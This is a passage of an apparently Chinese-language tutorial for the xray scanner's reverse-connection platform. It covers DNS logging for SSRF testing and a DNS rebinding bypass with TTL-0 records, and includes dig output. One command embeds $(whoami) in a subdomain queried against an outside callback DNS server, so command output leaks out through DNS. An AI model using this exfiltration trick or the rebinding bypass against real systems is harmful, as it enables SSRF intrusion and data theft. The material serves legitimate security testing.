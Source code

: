 可以看出来 ns1 的解析记录是对的，这个是我们配置文件中的静态解析规则。

在界面上可以生成一个新域名，如果我们不需要 dns rebinding 的功能，只需要查看解析记录的话，那和之前的 HTTP 访问记录功能没有太大差别，比如 `dig p-9fd889-lzyk.$(whoami).revc.xyz A@140.143.224.171` 就可以看到左侧 DNS 一栏中的记录了。

![](../assets/scenario/reverse_server_ssrf/15679095622627.jpg)

实际解析的域名中间的部分就是执行命令的结果。

### dns rebinding 也可以绕过验证，成功~

话说回来，为了验证我们之前利用 dns rebinding 进行绕过的思路，我们在 xray 的反连平台上创建一个 域名，然后指定两次不同的解析 IP 而且 TTL 为 0 就可以了。在网页上配置起来也是非常的简单。

![](../assets/scenario/reverse_server_ssrf/15679097232155.jpg)

点击保存之后，同样是先本地测试一下。

```bash
$dig p-04f887-2kua.revc.xyz A @140.143.224.171

; <<>> DiG 9.10.6 <<>> p-04f887-2kua.revc.xyz A @140.143.224.171
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 35
;; flags: qr aa rd; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0
;; WARNING: recursion requested but not available

;; QUESTION SECTION:
;p-04f887-2kua.revc.xyz.		IN	A

;; ANSWER SECTION:
p-04f887-2kua.revc.xyz.	0	IN	A	1.2.3.4

;; Query time: 54 msec
;; SERVER: 140.143.224.171#53(140.143.224.171)
;; WHEN: Sun Sep 08 10:29:25 CST 2019
```